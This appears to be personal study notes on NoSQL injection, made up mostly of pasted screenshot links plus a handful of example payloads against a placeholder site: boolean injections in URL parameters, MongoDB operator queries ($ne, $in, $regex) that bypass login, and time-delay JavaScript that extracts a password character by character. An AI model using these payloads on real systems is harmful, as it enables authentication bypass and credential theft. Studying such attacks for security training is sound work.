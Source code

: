 
![[Pasted image 20250214211230.png]]
![[Pasted image 20250214211320.png]]

![[Pasted image 20250214211655.png]]
![[Pasted image 20250214211707.png]]
![[Pasted image 20250214211909.png]]
![[Pasted image 20250214212012.png]]
```URL
False
https://insecure-website.com/product/lookup?category=fizzy'+%26%26+0+%26%26+'x
True
https://insecure-website.com/product/lookup?category=fizzy'+%26%26+1+%26%26+'x
```

![[Pasted image 20250214212230.png]]
```code
https://insecure-website.com/product/lookup?category=fizzy%27%7c%7c%27%31%27%3d%3d%27%31
```
![[Pasted image 20250214214946.png]]
![[Pasted image 20250214215037.png]]

![[Pasted image 20250215204414.png]]
![[Pasted image 20250215204603.png]]
![[Pasted image 20250215204958.png]]
![[Pasted image 20250215205118.png]]
```code
{"username":{"$in":["admin","administrator","superadmin"]},"password":{"$ne":""}}

{"username":{"$ne":"invalid"},"password":{"$ne":"invalid"}}

{"username":{"$regex":"invalid"},"password":{"$ne":""}}
```


![[Pasted image 20250215214241.png]]

![[Pasted image 20250215215015.png]]
![[Pasted image 20250215215234.png]]

![[Pasted image 20250215215453.png]]
```code
	https://insecure-website.com/user/lookup?username=admin'+%26%26+this.password!%3d'
```

![[Pasted image 20250215215520.png]]
![[Pasted image 20250215215550.png]]


![[Pasted image 20250218190507.png]]
![[Pasted image 20250218190623.png]]
![[Pasted image 20250218190846.png]]


![[Pasted image 20250224200016.png]]
![[Pasted image 20250224200528.png]]
```code

admin'+function(x){var waitTill = new Date(new Date().getTime() + 5000);while((x.password[0]==="a") && waitTill > new Date()){};}
(this)+'

admin'+function(x){if(x.password[0]==="a"){sleep(5000)};}(this)+'

```